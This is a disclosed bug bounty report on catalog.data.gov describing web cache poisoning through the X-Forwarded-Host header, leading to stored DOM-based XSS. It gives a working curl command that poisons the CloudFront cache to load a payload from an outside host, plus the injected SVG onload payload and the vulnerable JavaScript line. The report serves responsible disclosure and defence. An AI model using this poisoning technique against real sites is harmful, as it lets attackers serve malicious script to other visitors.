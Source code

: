 # Defacement of catalog.data.gov via web cache poisoning to stored DOMXSS

## Report Details
- **Report ID**: 303730
- **URL**: https://hackerone.com/reports/303730
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-10T12:23:37.143Z
- **Disclosed**: 2018-11-01T21:16:04.418Z

## Reporter
- **Username**: albinowax
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
An attacker can deface various pages on catalog.data.gov, leading to them executing malicious JavaScript when visited by a normal user.

The root problem is that the server trusts the X-Forwarded-Host HTTP header, and uses this to populate the 'data-site-root' and 'data-locale-root' attributes on the <body tag. Some JavaScript then fetches a JSON file from the URL specified in these attributes, and writes the response to the page without escaping it, leading to a DOMXSS vulnerability.

This behaviour is harmless by itself, since I can't make a victim send a malicious HTTP header. Fortunately for me, I can ensure that the poisoned response sent to me is cached by CloudFront, meaning my payload will be served to loads of other users. 

Please be careful when exploring this issue, as it's potentially quite easy to accidentally poison CloudFront's cache and antagonise your visitors. To safely replicate this issue, you can use the following steps:

1. Run curl command to poison cache:
curl -i -s -k  -X $'GET' \
    -H $'Host: catalog.data.gov' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'x-forwarded-host: portswigger-labs.net/catalog.data.gov_json_xss/json.php?' -H $'Connection: close' \
    $'https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6' > /dev/null

2. Visit the poisoned page:
https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6

3. Wait for a few seconds, and observe the popup caused by our injected alert(document.domain)

Behind the scenes, step 1 poisons the cache with a data-site-root value of 'portswigger-labs.net/catalog.data.gov_json_xss/json.php'. In step 2, some JavaScript fetches our json.php file from portswigger-labs.net, and uses our 'show more' JSON attribute to translate the 'show more' text on https://catalog.data.gov/dataset/consumer-complaint-database into "Mostrar más <svg onload=alert(document.domain)>"

This is the offending line of JavaScript:
var template_more = ['<tr class="toggle-show toggle-show-more">', '<td colspan="' + cols + '">', '<small>', '<a href="#" class="show-more">' + this.i18n('show_more') + '</a>', '<a href="#" class="show-less">' + this.i18n('show_less') + '</a>', '</small>', '</td>', '</tr>'].join('\n');

To mitigate this issue, I recommend addressing the X-Forwarded-Host reflection. 

Please let me know if you have any questions.

Cheers,

James & Gareth

## Impact

An attacker can deface most pages on catalog.data.gov.

## Attachments
- Screen_Shot_2018-01-10_at_12.11.01.png
- Screen_Shot_2018-01-10_at_12.13.45.png
